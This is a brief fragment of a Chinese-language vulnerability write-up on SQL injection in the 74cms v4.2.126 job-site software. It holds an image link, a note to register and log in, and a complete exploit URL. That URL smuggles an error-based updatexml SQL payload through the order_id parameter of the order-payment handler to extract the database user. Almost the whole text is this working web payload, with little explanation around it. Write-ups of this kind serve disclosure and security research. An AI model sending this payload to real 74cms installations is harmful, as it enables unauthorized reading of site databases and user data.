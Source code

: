 ![](./resource/74cmsv4.2.126-前台四处sql注入/media/rId54.png)

注册完成以后登录前台即可

    url: http://74cms.test/index.php?m=&c=CompanyService&a=order_pay_finish&order_id[0]=match&order_id[1][0]=aaaaaaa") and updatexml(1,concat(0x7e,(select user())),0) – a
